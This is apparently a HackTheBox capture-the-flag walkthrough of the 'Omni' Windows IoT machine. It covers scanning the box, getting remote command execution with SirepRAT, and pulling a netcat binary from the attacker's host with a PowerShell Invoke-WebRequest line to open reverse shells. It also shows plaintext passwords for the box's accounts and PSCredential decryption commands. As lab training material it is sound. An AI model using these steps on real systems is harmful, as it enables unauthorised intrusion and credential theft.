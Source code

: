 # HackTheBox-Omni

## NMAP

```
Host is up (0.21s latency).
Not shown: 65529 filtered ports
PORT      STATE SERVICE  VERSION
135/tcp   open  msrpc    Microsoft Windows RPC
5985/tcp  open  upnp     Microsoft IIS httpd
8080/tcp  open  upnp     Microsoft IIS httpd
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Windows Device Portal
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Site doesn't have a title.
29817/tcp open  unknown
29819/tcp open  arcserve ARCserve Discovery
29820/tcp open  unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port29820-TCP:V=7.80%I=7%D=11/16%Time=5FB29B69%P=x86_64-pc-linux-gnu%r(
SF:NULL,10,"\*LY\xa5\xfb`\x04G\xa9m\x1c\xc9}\xc8O\x12")%r(GenericLines,10,
SF:"\*LY\xa5\xfb`\x04G\xa9m\x1c\xc9}\xc8O\x12")%r(Help,10,"\*LY\xa5\xfb`\x
SF:04G\xa9m\x1c\xc9}\xc8O\x12")%r(JavaRMI,10,"\*LY\xa5\xfb`\x04G\xa9m\x1c\
SF:xc9}\xc8O\x12");
Service Info: Host: PING; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 355.84 seconds

```

## PORT 8080

<img src="https://imgur.com/t5dBZhD.png"/>

The site was asking me for credentials , I tried to goolge deafult password for `Windows Device Portal`


User Name :Administrator
password  :p@ssw0rd

But these credentials didn't work that I found on google


<img src="https://imgur.com/Vxpm1PC.png"/>

Then I came to know that this is an IoT box also I found a repository on GitHub which is a script that acts as RAT (Remote Access Trojan)

<img src="https://imgur.com/IJPzGDR.png"/>

https://github.com/SafeBreach-Labs/SirepRAT

I tried running commands that were on the repository so basically you want to install `hexdump` module on python2 because these works with python2 

<img src="https://imgur.com/sWYbCPF.png"/>


<img src="https://imgur.com/ik4yaSG.png"/>

So our RAT is working perfectly!

Now let's try to craft a backdoor to get a reverse shell and start metasploit listener 

<img src="https://imgur.com/bb6JZpQ.png"/>

But this didn't worked 

<img src="https://imgur.com/OEEO6Je.png"/>

Let's try to upload a `netcat` binary by hosting on our local machine and using `powershell Invoke-WebRequest -Uri $ip -OutFile $filepath`

<img src="https://imgur.com/yNrOwo0.png"/>

So it did it get transfered on the target box

<img src="https://imgur.com/RWM1K1d.png"/>

Looks like this version of `netcat` is not compatible , I then again tried to upload `netcat64.exe` and we got a hit 

<img src="https://imgur.com/KSuEEJV.png"/>

So let's keep our fingers crossed and hope we get a reverse shell

<img src="https://imgur.com/1ikwQsr.png"/>

And we got it :D

<img src="https://imgur.com/52p0i4q.png"/>

Here we can see there are 3 drives and we are in `C` drive where as in `D` drive we can see the `app` and `administrator` folder but we are not able to access them and `D` drive is formatted correctly so we cannot access it

By using `dir /a` we can see the hidden folder although we could have used powershell and used `ls -la` but this still gets our job done so when reading the contents of `r.bat ` we can two users as we suspected and what `net user ` is doing is that changing the password of both the users also it is also deleting that account in a loop

<img src="https://imgur.com/NNdZnM3.png"/>

```
net user app mesh5143
net user administrator _1nt3rn37ofTh1nGz
```

So I think we could not switch users as we do in linux atleast I don't know how to do it I tried googling in pasting the commands but didn't work so I assumed that this would be the password for that `Windows Device Portal` that we saw in the beginning .

<img src="https://imgur.com/p6Prnng.png"/>

So once I got into the application I looked around that what can I do with it and found where I can run system commands

<img src="https://imgur.com/Dbdob1n.png"/>

Now to see that which user are we , I tried ruuning `whoami` it failed but when I ran `echo %username%` it showed me that I'm Administrator so let's find a way to get a shell from here

<img src="https://imgur.com/c3nb2om.png"/>

Now we already uploaded `nc64.exe` in `C:\Windows\Temp` 

<img src="https://imgur.com/GJEdxsd.png"/>

<img src="https://imgur.com/KMFULV4.png"/>

Now we can't really read the contents of `user.txt` and `root.txt` because they are stored as an credential object in powershell which is called `PSCredential Object`

Now inorder to decrypt `user.txt` we need to be logged in as ther user in which that file `user.txt` in and for `root.txt` we need to be an administrator so we are admintrator let's try to decrypt that flag for now and then we will switch to `app` user


First we create an object in which that file is stored

`$file = Import-Clixml -Path U:\Users\administrator\root.txt`

Then if it gives no errors this command ran sucessfully

`$file.GetNetworkCredential().password`

Then this would use this an object to call a function to grab the password

<img src="https://imgur.com/gpenN2p.png"/>

Now for `app` user I'm going to quickly log in as him through `Windows Device Portal` run the netcat binary and caputre the reverse shell

Inorder to do that since there was no `logout` option on that portal I had to clear all browser's data then logged in with the password that we found for `app`

<img src="https://imgur.com/aNJpqUs.png"/>

I tried ruuning the `nc64.exe` binary but it was giving accessed denied so there was `Public` directory in `C` drive I uploaded the binary there

<img src="https://imgur.com/LgCK6Ni.png"/>

<img src="https://imgur.com/z7ZCtDH.png"/>

And we have a shell as `app` finally 

<img src="https://imgur.com/5iybuaf.png"/>

And we got the user flag as well

This link was really helpful for me to decrypt the password or in this case flag `https://www.travisgan.com/2015/06/powershell-password-encryption.html`
